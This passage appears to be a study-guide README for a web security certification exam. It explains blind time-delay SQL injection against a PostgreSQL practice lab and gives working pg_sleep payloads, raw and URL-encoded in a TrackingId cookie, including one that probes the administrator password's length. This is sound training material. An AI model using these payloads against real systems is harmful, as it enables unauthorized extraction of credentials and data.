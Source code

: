 > Blind SQL injection with time delays is tricky to _**identify**_, fuzzing involves educated guessing as OffSec also taught me in OSCP. The below payload will perform conditional case to delay the response by 10 seconds if positive SQL injection _**identified**_.

> Identify SQLi vulnerability. In [Burp Practice exam Stage 2](https://portswigger.net/web-security/certification/takepracticeexam/index.html) the advance search filters are vulnerable to `PostgreSQL`. I found `SQLMAP` tricky to identify and exploit the practice exam vulnerability in advance search. Manual exploit of the SQL injection time delay in [Practice Exam here](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#practice-exam-postgresql-timedelay).

```sql
;SELECT CASE WHEN (1=1) THEN pg_sleep(7) ELSE pg_sleep(0) END--
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

> [URL encoded](https://www.urlencoder.org/) `PostgreSQL` payload.

```sql
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END--
```

> Determine how many characters are in the password of the administrator user. To do this, increment the number after `>1` conditional check.

```sql
;SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
```
